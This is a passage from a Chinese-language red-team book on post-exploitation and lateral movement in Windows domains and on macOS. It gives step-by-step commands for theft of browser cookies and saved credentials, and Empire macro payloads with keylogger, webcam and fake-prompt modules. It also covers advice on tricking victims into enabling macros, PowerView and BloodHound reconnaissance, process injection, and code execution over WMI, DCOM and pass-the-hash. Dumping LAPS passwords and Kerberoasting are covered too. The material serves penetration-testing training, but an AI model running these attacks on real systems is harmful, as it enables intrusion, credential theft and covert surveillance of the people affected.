从转储中可以看到，我们拉取了他们存储的 `Facebook` 凭证以及他们拥有的任何 `generic` 凭证。请记住，对于 Web 凭证，`Get-WebCredentials` 只会从 `Internet Explorer/Edge` 获取密码。如果我们需要从 `Chrome` 获取，我们可以使用 `Empire` 的 `powershell/collection/ChromeDump` 载荷。在使用 `ChromeDump` 之前，你需要先终止 `Chrome` 进程，然后运行 `ChromeDump`。最后，我喜欢提取所有浏览器历史和 Cookie。我们不仅可以了解他们的内部服务器的很多细节，而且，如果他们的会话仍然活着，我们可以使用他们的 Cookie 并进行身份验证，而无需知道他们的密码！

使用 `PowerShell` 脚本，如：https://github.com/sekirkity/BrowserGather，我们可以提取所有 `Browser Cookies`（浏览器 Cookie），窃取它们，并将我们的浏览器隧道化以利用这些 Cookie，所有操作都不需要提权。


接下来，我们甚至可以开始在受害者的系统上寻找所有第三方软件中的服务器和凭证。一个名为 `SessionGopher` (https://github.com/fireeye/SessionGopher) 的工具可以从 `WinSCP`、`PuTTY`、`SuperPuTTY`、`FileZilla` 和 `Microsoft Remote Desktop` 中抓取主机名和保存的密码。其他包含的功能还包括从网络上其他系统的本地凭证中远程抓取的能力。启动 `SessionGopher` 的最简单方法是导入 `PowerShell` 脚本并使用以下命令执行：

*   加载 `PowerShell` 文件：
    *   `. .\SessionGopher.ps1`
*   执行 `SessionGopher`：
    *   `Invoke-SessionGopher -Thorough`

以下是我们从不提权、绕过 `UAC` 或开启键盘记录器获取主系统凭据的几种方式之一。由于我们处于用户上下文中，因此可以访问主机上的许多资源，以帮助我们将攻击路径继续推进至利用阶段。

## 从 OSX 获取本地凭据和信息

THP（横向渗透）中的大多数侧向移动针对的是 `Windows` 环境。这是因为几乎所有中型和大型使用 `Active Directory` 来管理系统和服务器的环境中都采用这种方式。我们每年都会越来越多地遇到 `Mac`，因此也想确保将其纳入其中。一旦进入某个环境，许多攻击方式与 `Windows` 世界的攻击类似（例如：扫描默认凭据、`Jenkins`/应用类攻击、嗅探网络以及通过 `SSH` 或 `VNC` 进行侧向移动）。

有几种载荷支持 `Mac` 系统，其中最受欢迎的之一是利用 `Empire` 工具。`Empire` 可以生成多种类型的载荷来诱骗受害者执行我们的代理程序，其中包括鸭子脚本 (ducky scripts)、应用程序、`Office` 宏、`Safari` 启动器、软件包等。例如，我们可以创建一个类似于在 Windows `PowerShell` Empire 中制作过的 `Office` 宏：

1.  **启动 Empire**
2.  首先，请确保按照本书开始时的操作配置您的 Empire 监听器
3.  接下来，我们需要构建一个 `OSX` 宏载荷：
    *   `usestager osx/macro`
4.  设置输出文件 (`OutFile`) 以将其写入本地文件系统
    *   `set OutFile /tmp/mac.py`
5.  **生成载荷**


如果您查看生成的 `Office` 宏文件，您会发现它只是由 `Python` 执行的 `Base64` 代码。幸运的是对我们而言，`Python` 是 `Mac` 系统的默认应用程序，当该宏被执行时，我们应该能收到我们的代理信标 (beacon)。

要在 `Mac` 上创建恶意的 `Excel` 文件，可以打开一个新的 `Excel` 工作表，然后依次点击“工具”、“查看宏”，在“在此 `workbook` 中建立宏”，一旦 `Microsoft Visual Basic` 编辑器弹出，删除所有现有代码并将其替换为您新的宏代码。最后将其保存为 `.xlsm` 文件。


现在，将您的恶意文件发送给受害者并观察 `Empire` 代理程序的涌入情况。在受害者端，当他们打开 `Excel` 文件后，界面大致如下所示：


务必编造一个合理的故事诱导他们点击“启用宏”。

一旦您的代理连接回您本地的 `Empire` 服务器，侦察阶段也相当类似。我们需要执行以下操作：

*   转储浏览器信息和密码：`usemodule collection/osx/browser_dump`
*   开启键盘记录器：`usemodule collection/osx/keylogger`
*   触发应用提示以捕获密码：`usemodule collection/osx/prompt`
*   尽量利用摄像头拍照也很有帮助：`usemodule collection/osx/webcam`

## 在 Windows 域环境中“利用本地资源” (Living Off the Land)

再次，在下方的示例中，我们将使用 `PowerShell Empire`。不过，您也可以使用 `Metasploit`、`Cobalt Strike` 或类似工具进行相同风格的攻击。只要您能够将 `PowerShell` 脚本导入内存并避开主机系统防护即可，具体使用的工具其实并不重要。

现在您已经成功攻破受害者机器并从其工作站窃取所有秘密信息，了解了受害者浏览过的部分网站数据并运行了一些 `netstat` 式的侦察……接下来该做什么呢？

对于红队（Red Teamer）而言，关键在于在服务器、工作站、用户、服务以及 `Active Directory` 环境中找到可靠的信息。在许多情况下，我们无法运行任何漏洞扫描甚至是 `nmap` 扫描，因为存在被警报或抓获的风险。那么我们该如何利用网络和服务的“功能”来查找我们需要的所有信息呢？

### 服务主名称 (Service Principal Names)

服务主名称（SPN）是 `Windows` 的一项功能，允许客户端唯一标识服务的实例。`Kerberos` 认证使用 SPN 将服务实例与服务登录帐户关联起来 [https://msdn.microsoft.com/en-us/library/ms677949(v=vs.85).aspx]。例如，您可能为运行 `MSSQL` 服务器、`HTTP` 服务器、打印服务器的服务账户配置了 SPN 以及其他各类服务账户的 SPN。对于攻击者而言，查询 SPN 是枚举阶段至关重要的一部分。这是因为任何域用户帐户都可以向 `Active Directory` 中查询所有与 AD 关联的服务帐户/服务器信息。我们无需扫描单个主机即可识别所有的数据库和 Web 服务器！

作为攻击者，我们可以利用这些“功能”来查询 `Active Directory`。从任意加入了域的计算机上，攻击者可以运行 `setspn.exe` 文件来查询 AD。该文件是 `Windows` 系统的默认二进制程序存在于所有现代 `Windows` 系统中。

*   `setspn -T [DOMAIN] -F -Q */*`

*   开关参数：
    *   `-T` = 在指定的域上执行查询
    *   `-F` = 在 AD 林级别而不是域级别执行查询
    *   `-Q` = 在每个目标域或林中执行
    *   `*/*` = 获取所有信息

我们从 `setspn` 能看出什么类型的信息呢？在下方的示例中运行 `setspn` 命令后，我们看到了在域控制器上运行的服务信息、工作站的信息以及我们还发现了一台名为 `CSK-GITHUB` 的服务器。在这个例子中可以看出该主机机器正在运行 `HTTP` 服务。如果这发生在不同的端口但仍使用相同协议，这些信息也会被列出。


`setspn` 不仅会提供有关 AD 中的服务用户和所有主机名方面的有用信息，还会告诉我们系统上正在运行哪些服务甚至包括其端口号。既然我们可以直接从 AD 获取关于服务和端口的绝大多数信息，为什么还需要扫描网络呢？有些东西可以立即进行攻击吗？例如：`Jenkins`、`Tomcat` 还是 `ColdFusion`？

### 查询 Active Directory

不知道我有多少次发现单个域用户帐户和密码，随后被告知这只是普通的域用户帐户没有其他权限无需担心。我们在打印机、共享自助服务工作站、明文文本文件（其中包含了服务的密码）、配置文件上发现了这类帐号，以及在 `iPad` 和网页应用中（将密码包含在页面源代码中），如此等等。但是面对一个没有任何其他组成员资格的普通域用户帐户，您能做什么呢？

#### 获取 AD 用户的更详细信息

我们可以使用由 @harmj0y 创建的工具 `PowerView` ([`bit.ly/2JKTg5d`](http://bit.ly/2JKTg5d)) 来为我们要做的所有肮脏工作提供帮助。`PowerView` 是一款用于在 `Windows` 域中获取网络态势感知的 `PowerShell` 工具。它包含一系列纯 `PowerShell` 实现以替换各种 `net *` Windows 命令，并利用 `PowerShell` AD 钩子和底层 Win32 API 函数执行有用的 `Windows` 域功能 ([`bit.ly/2r9lYnH`](http://bit.ly/2r9lYnH))。作为攻击者，我们可以利用 `PowerView` 和 `PowerShell` 来查询 AD，这可以使用具有最低权限的 `Domain Users` 用户完成，甚至是在没有本地管理员权限的情况下进行。

让我们以这个低级用户的能获取的数据量为例。为了开始操作，我们已经让 `Empire` 运行中（您可以在 `Metasploit`、`Cobalt Strike` 或类似工具中进行复制），并且已经在受害者系统上执行了载荷。如果您以前从未配置过 `Empire`，请查看本书的 "Setup" 章节了解如何设置 `Empire` 及其载荷。一旦我们的代理开始与命令与控制 (Command and Control) 服务器通信，我们就可以输入 `info` 来了解关于受害者的信息。在这种情况下，我们已经攻破了一台运行完全修补版 `Windows 10` 系统的宿主机，其用户名为 `neil.pawstrong`，属于 `cyberspacekitten` 的域内。


接下来，我们想在未引起太多怀疑的情况下从域查询信息。我们可以使用 `Empire` 中的 `PowerView` 工具获取信息。`PowerView` 查询域控制器（DC）以获取有关用户、组、计算机等的信息。我们将使用的 `PowerView` 功能将仅查询域控制器，并且看起来应该像正常流量。

`Empire` 中有哪些可用的模块可用于态势感知？

我们可以从名为 `get_user` 的 `PowerView` 脚本开始。`Get_user` 会查询指定域中给定用户或多个用户的信息。使用默认设置，我们可以获取 AD 中所有用户的详细信息及其关联信息。

**模块：** `situational_awareness/network/powerview/get_user`

在上述输出中，我们可以看到其中一名用户的信息（`Purri Gagarin`）。我们获取了什么类型的信息？我们可以看到他们的 `samaccountname` 或 `username`、密码更改时间、对象类别、所属组（`membersof`）、最后登录时间及更多内容。通过这个基本的用户导出，我们可以从目录服务获取大量信息。我们还能获取其他什么类型的信息？

**模块：** `situational_awareness/network/powerview/get_group_member`

`get_group_member` 返回给定组的成员，并带有“递归”选项以查找所有有效组成员。我们可以使用 AD 查找特定组的特定用户。例如，使用以下 `Empire` 设置，我们可以搜索所有域管理员（`Domain Admins`）及属于域管理员组的组：

*   `info`
*   `set Identity Domain Admins`
*   `set Recurse True`
*   `set FullData True`
*   `execute`

现在，我们有了用户、组、服务器和服务的列表。这将有助于我们映射哪些用户拥有哪些权限。然而，我们仍然需要有关工作站和系统的详细信息。这可能包括版本、创建日期、使用情况、主机名等。我们可以在名为 `get_computer` 的模块上获取此信息。

**模块：** `situational_awareness/network/powerview/get_computer`

**描述：** `get_computer` 模块查询域中的当前计算机对象。

让 `get_computer` 查询域控制器，我们获得了什么信息？嗯，我们看到我们获取了关于机器、创建时间、DNS 主机名、可分辨名称等的信息。作为攻击者，最有用的侦察细节之一是获取操作系统类型和操作系统版本。在这种情况下，我们可以看到这些系统运行在 `Windows 10` 和 `Build 16299`。我们可以利用这些信息，查看操作系统的发布时间以及它们是否在微软的发布信息页面 `https://technet.microsoft.com/en-us/windows/release-info.aspx` 得到积极修补。

### BloodHound/SharpHound

我们如何利用侦察阶段收集的所有信息来创建一条利用路径？我们如何轻松快速地将谁有权访问什么进行关联？在过去，我们通常尝试攻击一切以达到目的，但这总是增加了被发现的可能性。`Andrew Robbins`、`Rohan Vazarkar` 和 `Will Schroeder` 创建了一种名为 `BloodHound/SharpHound` 的最佳关联工具。根据他们的 `Github` 页面，"BloodHound 使用图论来揭示 `Active Directory` 环境中隐藏的且通常是意外的关系。攻击者可以使用 `BloodHound` 轻松识别高度复杂的攻击路径，否则不可能快速识别这些路径。防御者可以使用 `BloodHound` 识别并消除这些相同的攻击路径。蓝色和红色团队都可以使用 `BloodHound` 轻松深入了解 `Active Directory` 环境中的权限关系。[`https://github.com/BloodHoundAD/BloodHound`]`

`BloodHound` 通过在受害系统上运行采集器（Ingestor）来工作，然后查询 `Active Directory`（类似于我们之前手动所做的操作）以获取用户、组和主机信息。然后采集器将尝试连接到每个系统以枚举已登录用户、会话和权限。当然，这会对网络产生很大的噪音。对于中大型组织，在使用默认设置（可修改）的情况下，使用 `SharpHound` 连接每个主机系统并查询信息可能需要不到 10 分钟。注意，由于这会触碰网络上的每个域加入的系统，它可能会让你暴露。`BloodHound` 中有一个隐身选项，仅查询 `Active Directory` 而不连接到每个主机系统，但输出内容非常有限。

目前有两个不同的版本（我很确定旧版不久将被移除）：

*   在 `Empire` 内部，你可以使用模块：
    *   `usemodule situational_awareness/network/bloodhound`
    *   这仍然使用旧的 `PowerShell` 版本，非常慢

*   更好的选择是 `SharpHound`。`SharpHound` 是原始 `BloodHound` 采集器的 `C#` 版本。它速度快且稳定得多。它可以作为独立的二进制文件使用，或者作为 `PowerShell` 脚本导入。`SharpHound` `PowerShell` 脚本将使用反射和 `assembly.load` 将编译好的 `BloodHound` `C#` 采集器加载到内存中。
    *   `https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors`

要运行 `BloodHound/SharpHound` 采集器，您可能需要指定多个 `CollectionMethods`：

*   `Group` - 收集组成员关系信息
*   `LocalGroup` - 收集计算机的本地管理员信息
*   `Session` - 收集计算机的会话信息
*   `SessionLoop` - 连续收集会话信息直到被终止
*   `Trusts` - 枚举域信任数据
*   `ACL` - 收集访问控制列表（ACL）数据
*   `ComputerOnly` - 收集本地管理员和会话数据
*   `GPOLocalGroup` - 使用组策略对象（GPO）收集本地管理员信息
*   `LoggedOn` - 使用特权方法收集会话信息（需要管理员！）
*   `ObjectProps` - 收集用户和计算机的节点属性信息
*   `Default` - 收集组成员关系、本地管理员、会话和域信任

要运行 `Blood/SharpHound`，在主机系统上：

*   运行 `PowerShell` 并导入 `BloodHound.ps1` 或 `SharpHound.ps1` 之一：
    *   `Invoke-Bloodhound -CollectionMethod Default`
    *   `Invoke-Bloodhound -CollectionMethod ACL, ObjectProps, Default -CompressData -RemoveCSV -NoSaveCache`
*   运行可执行文件：
    *   `SharpHound.exe -c Default, ACL, Session, LoggedOn, Trusts`

一旦 `BloodHound/SharpHound` 完成，四个文件将被下载到受害系统。获取这些文件并将其移至您的 `Kali` 盒子。接下来，我们需要启动我们的 `Neo4j` 服务器并导入此数据以构建关联图。

**启动 BloodHound**

1.  `apt-get install bloodhound`
2.  `neo4j console`
3.  打开浏览器访问 `http://localhost:7474`
    1.  连接到 `bolt://localhost:7687`
    2.  用户名：`neo4j`
    3.  密码：`neo4j`
    4.  更改密码
4.  在终端中运行 `BloodHound`：
    1.  `bloodhound`
    2.  数据库 URL: `bolt://127.0.0.1:7687`
    3.  用户名：`neo4j`
    4.  密码：新密码
5.  加载数据：
    1.  右侧有一个“上传数据”按钮
    2.  上传 `acls.csv`、`group_membership.csv`、`local_admin.csv` 和 `sessions.csv`

*   如果没有可用于测试的域名，我已在下方上传了四个 `Bloodhound` 文件 [`https://github.com/cyberspacekittens/bloodhound`]，以便您重复练习。一旦进入 `Bloodhound` 并完成所有数据的导入，我们可以进入 "Queries" 查看 "Find Shortest Paths to Domain Admin"。我们还可以选择特定用户，查看是否能映射到该特定用户或组的路径。在我们的案例中，我们首先破坏的第一个盒子是 `NEIL.PAWSTRONG@CYBERSPACEKITTENS.LOCAL`。在搜索栏中插入该用户，点击 "Pathfinding" 按钮，输入 "Domain Admin"（或其他任何用户），查看是否能在这两个对象之间建立路由路径。


正如从 `Neil` 的机器上所看到的，我们可以一直将路径导向 `CSK-Lab`。一旦进入实验室盒子，会有一个名为 `Purri` 的用户，他是 `HelpDesk` 组的成员。


如果我们要破坏 `HelpDesk` 组，我们可以转向 `Chris` 的系统（他也在其中，当前登录用户为 `Elon Muskkat`）。如果我们要将进程迁移或窃取其明文密码，我们可以提升到 `Domain Admin` 级别！

在大型网络中，我们发现 `Bloodhound` 查询存在局限性以及搜索问题。使用 `Neo4j` 的一大好处是，它允许通过其自有语言 `Cypher` 执行原始查询。关于 `Cypher` 自定义查询的深入探讨可在此处找到：[`https://blog.cptjesus.com/posts/introtocypher`]。

我们可以添加哪些自定义查询？嗯，[`@porterhau5`](https://github.com/porterhau5) 在扩展 `Bloodhound` 以追踪和可视化您的破坏方面取得了一些巨大的进展。在此处查看他们的文章：[`https://porterhau5.com/blog/extending-bloodhound-track-and-visualize-your-compromise/`]。

从高层角度来看，[`@porterhau5`](https://github.com/porterhau5) 添加了标记被破坏主机的想法，以帮助更好地在环境中进行横向移动。例如，在这个虚构的场景中，我们通过鱼咬用户 `niel.pawstrong` 来破坏初始用户。使用 `Cypher` 语言和 `Bloodhound` 应用程序的 "Raw Query" 功能，我们可以运行这些查询：

*   在被破坏的系统上添加 `Owned` 标签：
    ```
    MATCH (n) WHERE n.name = "NEIL.PAWSTRONG@CYBERSPACEKITTENS.LOCAL" SET n.owned = TRUE
    ```


### 利用 BloodHound 进行内网信息收集

`MATCH (n) WHERE n.name="NEIL.PAWSTRONG@CYBERSPACEKITTENS.LOCAL" SET n.owned="phish", n.wave=1`

运行一个查询以显示所有被鱼咬的拥有系统：

```
MATCH (n) WHERE n.owned="phish" RETURN n
```

现在，我们可以为 `BloodHound` 添加一些自定义查询。在 `BloodHound` 的 "Queries" 标签页上，滚动到底部，点击 "Custom Queries" 旁边的编辑按钮。用以下内容替换所有文本：`https://github.com/porterhau5/BloodHound-Owned/blob/master/customqueries.json`。

保存后，我们应该会创建更多的查询。我们现在可以点击 "从拥有节点到 Domain Admin 的最短路径"。


如果您想更深入地研究这一点，请查看 `@porterhau5` 分叉的 `BloodHound` 版本。它对标记被破坏的机器做得更漂亮，并允许更多的自定义功能：`https://github.com/porterhau5/BloodHound-Owned`。

到目前为止，没有扫描，我们已经能够大量获取关于组织的信息。这一切都是以本地 `AD` 用户（`domain users`）的身份进行的，而且大部分网络流量看起来也不太可疑。如你所见，我们能够在没有任何本地管理员权限或本地系统管理权限的情况下完成所有操作。

### 高级 ACL/ACE BloodHound

使用 `BloodHound` 的集合方法 `Access Control List`（`ACL`）时，我们的脚本将查询 `AD` 以收集用户/对象的访问控制权限。我们从 `Access Control Entries`（`ACEs`）收集的信息描述了允许和拒绝权限的用户、组和计算机。发现和滥用 `ACEs` 本身就可以成为一整本专著，但这里有一些不错的开始资源：

- `BloodHound` 1.3 – The `ACL` 攻击路径更新
  - `https://wald0.com/?p=112`
- `Introducing` the `Adversary Resilience` 方法论
  - `http://bit.ly/2GYU7S7`

当我们将 `ACL` 数据导入 `BloodHound` 时，我们在寻找什么？`BloodHound` 识别出 `ACEs` 中可能存在弱点的地方。这包括谁有权更改/重置密码，将成员添加到组中，更新对象（如其他用户的 `scriptPath`），更新对象或在对象上写入新的 `ACE` 等。

你可能会如何利用这一点？当破坏盒子和获取额外凭据时，我们可以针对路径，找到能够重置密码或修改 `ACE` 权限的用户。这将导致找到通往 `Domain Admin` 或特权账户的创造性路径，甚至允许设置后门以备后用。进一步了解这些滥用类型的绝佳资源是：`Robbins-An-ACE-Up-The-Sleeve-Designing-Active-Directory-DACL-Backdoors`（`http://ubm.io/2GI5EAq`）演示文稿。

### 横向移动 - 迁移进程

在具有多个用户的盒子上，常见的做法是制作令牌或迁移不同用户的令牌。这并非新事物，但在环境中进行横向移动时经常被大量使用。通常来自 `BloodHound` 输出或共享工作站，作为攻击者，我们需要能够在我们受害者系统上冒充其他用户。

使用我们拥有的许多工具可以实现这一点。在 `Metasploit` 方面，我们都应该对 `Post Exploitation incognito`（`https://www.offensive-security.com/metasploit-unleashed/fun-incognito/`）相当熟悉，以窃取令牌。在 `Empire` 中，我们可以使用 `steal_tokens` 在该系统上冒充用户。我注意到有时窃取令牌会破坏我们的外壳。为了避免这种情况，我们可以将一个新代理注入到另一个用户拥有的运行进程中。

在下面的图片中，我们鱼咬了一个运行我们恶意软件的员工。这使我们能够在属于该受害者用户（`neil.pawstrong`）的进程中运行。一旦进入该用户的盒子，我们就转向了 `Buzz Clawdrin` 的系统，并使用 `WMI`（Windows Management Instrumentation）启动了新代理。问题在于，我们仍在我们的初始受害者 `neil.pawstrong` 的进程下，因为我们使用缓存凭据在 `Buzz` 的宿主机上启动了一个外壳。因此，与其窃取令牌，我们应该使用 `Empire` 的 `psinject` 功能。

`PSInject` 在 `Empire` 中“能够将一个代理注入到另一个进程中，使用 `ReflectivePick` 将 `.NET` 通用语言运行时加载到进程中并执行特定的 PowerShell 命令，所有这一切都不需要启动新的 `powershell.exe` 进程！”（`http://bit.ly/2HDxj6x`）。我们使用它启动一个新代理，运行在 `Buzz.Clawdrin` 拥有的进程下，以便我们现在可以获取他的访问权限。


### 从您初始主机向外横向移动

现在，您已经找到可以移动到那些系统的路径，要获取代码执行到这些系统有哪些选项？最基本的方法是使用我们当前 `Active Directory` 用户的权限来控制另一个系统。例如，我们可能会看到一个经理对其下属的机器拥有完全访问权限，一台有多个用户拥有管理权限的会议室/实验室机器，内部系统的配置错误，或看到有人手动将用户添加到该 PC 的本地管理员组。这些都是我们看到用户远程访问网络上其他工作站的一些方式。一旦在受感染的机器上，我们可以从 `BloodHound` 获取结果，或者重新扫描网络，查看我们可以本地访问哪些机器：

- `Empire` 模块：`situational_awareness/network/powerview/find_localadmin_access`
- `Metasploit` 模块：`http://bit.ly/2JJ7ILb`

`Empire` 的 `find_localadmin_access` 将查询 `Active Directory` 以获取所有主机名，并尝试连接到它们。这绝对是一个嘈杂的工具，因为它需要连接到每个主机并验证其是否为本地的管理员。


# 正如我们所见，`find_localadmin_access` 模块识别出我们被利用的用户确实拥有访问 `buzz.cyberspacekittens.local` 主机的权限。

为了双重确认我们拥有访问权，我通常会执行非交互式的远程命令，例如 `dir \\[remote system]\C$`，并检查我们是否对 C 盘拥有读写权限。

在横向移动方面，有几个选项可供选择。让我们先查看 `Empire` 中提供的选项，因为它们通常是最常见的（直接从 `Empire` 中提取）：

- `inveigh_relay`: `Inveigh` 的 SMB 中继功能。该模块可用于将传入的 HTTP/Proxy NTLMv1/NTLMv2 身份验证请求中继到 SMB 目标。如果身份验证成功中继且账号具有正确的权限，则会在目标中以 PsExec 风格执行指定命令或 `Empire` 启动器。

- `invoke_executemsbuild`：此函数使用 `MSBuild` 和内联任务在本地/远程主机上执行 PowerShell 命令。如果提供凭据，则会将默认的管理共享挂载到本地。此命令将在 `MSBuild.exe` 进程的上下文中执行，而无需启动 `PowerShell.exe`。

- `invoke_psremoting`：使用 PSRemoting 在远程主机上执行加载阶段（stager）。只要受害者启用了 PSRemoting（并非总是可用），我们就可以通过此服务执行 PowerShell。

- `invoke_sqloscmd`：使用 `xp_cmdshell` 在远程主机上执行命令或加载阶段。古老的 `xp_cmdshell` 回来了！

- `invoke_wmi`：使用 WMI 在远程主机上执行加载阶段。WMI 几乎总是启用的，这是执行 PowerShell 负载的绝佳方式。

- `jenkins_script_console`：向具有未经认证访问脚本控制台权限的 Windows Jenkins 服务器部署 `Empire` 代理。正如我们所知，Jenkins 服务器很常见，而没有凭据通常意味着可以通过 `/script` 端点进行完全远程代码执行（RCE）。

- `invoke_dcom`：通过 DCOM（`http://bit.ly/2qxq49L`）上的 `MMC20.Application` COM 对象在远程主机上调用命令。允许我们在不使用 PsExec、WMI 或 PSRemoting 的情况下进行跳转（pivot）。

- `invoke_psexec`：使用 PsExec 类型功能在远程主机上执行加载阶段。这是使用 PsExec 移动文件并执行旧式方法。这可能会触发警报，但如果没有其他可用方法，这仍然是一种有效的方法。

- `invoke_smbexec`：使用 `SMBExec.ps` 在远程主机上执行加载阶段。Instead of using PsExec，我们可以使用 Samba 工具进行类似的攻击。

- `invoke_sshcommand`：通过 SSH 在远程主机上执行命令。

- `invoke_wmi_debugger`：使用 WMI 将远程机器上目标二进制文件的调试器设置为 `cmd.exe` 或加载阶段。使用调试工具如 `sethc`（粘滞键）来执行我们的代理。

- `new_gpo_immediate_task`：构建一个“立即”执行的 schtask，并通过指定的组策略对象（GPO）推送。如果您的用户账号有权修改 GPO，该模块允许您将一个“立即”安排的任务推送到您编辑的 GPO 中，从而实现在应用了该 GPO 的系统上执行代码。

`http://www.harmj0y.net/blog/empire/empire-1-5/`

这只是最常见和最容易实现的横向移动技术中的一些。在本书稍后的内容中，我们将讨论一些较少见的绕网技术。在大多数网络中，Windows 管理工具包（WMI）通常是启用的，因为管理工作站需要它。因此，我们可以使用 `invoke_wmi` 进行横向移动。由于我们使用的是缓存的凭据，且我们的账号拥有访问远程主机的权限，因此我们无需知道用户的凭据。

### 在远程系统上执行

- `usemodule` `lateral_movement/invoke_wmi`
- 设置您即将攻击的计算机：
  - `set` `ComputerName` `buzz.cyberspacekittens.local`
- 定义要使用的监听器：
  - `set` `Listener` `http`
- 远程连接到该主机并执行您的恶意软件：
  - `execute`
- 与新代理交互
  - `agents`
  - `interact` `<代理名称>`
- `sysinfo`

### 使用 DCOM 进行横向移动

在主机内部网中，一旦入侵主机，就有多种方式可以横向移动。如果被利用的账号拥有访问权限，或者您能够使用捕获的凭据创建令牌，我们可以使用 WMI、PowerShell 远程管理或 PsExec 生成不同的 shell。如果这些方法受到监控怎么办？我们可以利用一些有趣的 Windows 功能，即分布式组件对象模型（DCOM）。DCOM 是 Windows 的一项功能，用于在不同远程计算机上的软件组件之间进行通信。

您可以使用以下 PowerShell 命令列出机器上的所有 DCOM 应用程序：`Get-CimInstance Win32_DCOMApplication`。

根据 `@enigma0x3` 的研究（`https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/`），他识别出存在多个对象（例如 `ShellBrowserWindow` 和 `ShellWindows`），这些对象允许在受害主机上远程执行代码。当您列出所有 DCOM 应用程序（如上所示）时，您会遇到一个 `ShellBrowserWindow` 对象，其 CLSID 为 `C08AFD90-F2A1-11D1-8455-00A0C91F3880`。确定了该对象后，只要我们的账号拥有访问权限，我们就可以滥用此功能在远程工作站上执行二进制文件：

```
powershell
$([activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","buzz.cyberspacekittens.local"))).Navigate("c:\windows\system32\calc.exe")
```

这仅在系统本地执行文件，我们无法向可执行文件包含任何命令行参数（因此无法使用 `cmd /k` 风格的攻击）。相反，我们可以从远程系统调用文件并执行它们，但请注意用户会收到弹出警告。在这种情况下，我目前位于受害主机 `neil.cyberspacekittens.local` 上，该主机对名为 `buzz` 的远程工作站拥有管理员访问权限。我们将共享 `Neil` 工作站点上的一个文件夹并托管我们的恶意负载。接下来，我们可以调用 DCOM 对象在远程受害者（`buzz`）机器上执行我们托管的文件：

```
$([activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","buzz.cyberspacekittens.local"))).Navigate("\\neil.cyberspacekittens.local\Public\adobeupdate.exe")
```

正如您在下一张图片中看到的，在 `Buzz` 的机器上显示了一个关于运行 `adobeupdate.exe` 文件的弹出窗口。虽然大多数用户会点击并运行它，但这可能会导致我们被抓获。

因此，避免此问题的更佳路线是先将文件传输过去（类似于挂载受害者的驱动器），然后再使用 DCOM 执行该文件。`@enigma0x3` 甚至进一步利用这一点，并用 Excel 宏滥用了 DCOM。首先，我们需要在自己的系统上创建恶意 Excel 文档，然后使用 PowerShell 脚本（`https://bit.ly/2pzJ9GX`）在受害主机上执行此 `.xls` 文件。

需要注意的是，存在大量的其他 DCOM 对象可以从系统中获取信息，甚至可能启动/停止服务等。这些无疑将为关于 DCOM 功能的进一步研究提供极好的起点。

资源：
- `https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/`
- `https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/`
- `https://www.cybereason.com/blog/dcom-lateral-movement-techniques`

### Pass-the-Hash

本地管理员账号的 Pass-The-Hash (PTH) 旧方法在很大程度上已开始消失。虽然并未完全消失，让我们快速回顾一下。PTH 攻击利用 Windows NTLM 哈希对系统进行身份验证，而不是使用用户的凭据。为什么这很重要？首先，使用 Mimikatz 等工具可以轻松恢复哈希，可以提取本地账号（但需要本地管理员访问权限），可以从域控制器中恢复（不是明文密码），等等。

`PTH`（`Pass-the-Hash`）最基本的用途是攻击本地管理员。这种情况通常比较少见，因为默认情况下，本地管理员账户现在已被禁用，并且出现了新的安全功能，例如本地管理员密码解决方案（`LAPS`），它为每台工作站生成随机密码。在过去，获取一台工作站上本地管理员账户的哈希值在组织内是相同的，这意味着一次入侵就会导致整个公司被攻破。

当然，这样做的前提是：你必须是系统上的本地管理员，本地管理员账户 `administrator` 已启用，且它是 RID 为 `500` 的账户（这意味着它必须是原始的管理员账户，而不能是新创建的本地管理员账户）。

命令：`shell net user administrator`

```
User name             Administrator

Full Name

Comment             Built-in account for administering the computer/domain

User's comment

Country/region code 000 (System Default)

Account active          Yes

Account expires         Never
```


如果我们看到该账户处于活动状态，我们可以尝试从本地计算机中提取所有哈希值。请记住，这不会包括任何域哈希值：

* Empire 模块：`powershell/credentials/powerdump`
* Metasploit 模块：`http://bit.ly/2qzsyDI`

示例：

* (Empire：`powershell/credentials/powerdump`) > `execute`
* 作业已启动：`93Z8PE`

输出：

* `Administrator:500: aad3b435b51404eeaad3b435b51404ee:3710b46790763e07ab0d2b6cfc4470c1:::`
* `Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

我们可以使用 Empire (`credentials/mimikatz/pth`)，或者启动受信任的 `psexec`，提交我们的哈希值并执行自定义负载，如下图所示：


如前所述，这是旧式的横向移动方法，且较为罕见。如果你仍然试图利用本地管理员账户，但身处拥有 LAPS（本地管理员密码解决方案）的环境中，你可以使用几种不同的工具从活动目录中提取它们。这假设你已经拥有特权的域管理员或帮助台类型的账户：

* `https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/enum_laps.rb`
* `ldapsearch -x -h 10.100.100.200 -D "elon.muskkat" -w password -b "dc=cyberspacekittens,dc=local" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd` [https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/]

这是一种在不暴露你的帮助台用户账户的情况下继续横向移动的好方法。

### 从服务账户获取凭据

如果你发现自己处于以下场景：你是受限用户，无法从内存中提取密码，且在主机系统上尝试密码失败……接下来该怎么办呢？嗯，我最喜欢的一种攻击称为 Kerberoasting。

我们都清楚 NTLM 存在缺陷，因为它使用无盐单向哈希、重放攻击以及其他传统问题，这也是许多公司转向 Kerberos 的原因。众所周知，Kerberos 是一种用于在计算机网络上验证服务请求的安全方法。我们不会深入探讨 Windows 中 Kerberos 的实现。但是，你应该知道，域控制器通常充当票证授予服务器；网络上的用户可以请求票证授予票证以访问资源。

什么是 Kerberoast 攻击？作为攻击者，我们可以为之前获取的目标服务账户的任何 SPN（服务主体名称）请求 Kerberos 服务票证。漏洞在于，当从域控制器请求服务票证时，该票证是使用关联的服务用户的 NTLM 哈希值加密的。由于任何用户都可以请求任何票证，这意味着，如果我们能猜测到关联服务用户 NTLM 哈希值（即加密票证的哈希值）对应的密码，我们就知道了实际服务账户的密码。这听起来可能有点令人困惑，让我们通过一个示例来逐步解释。

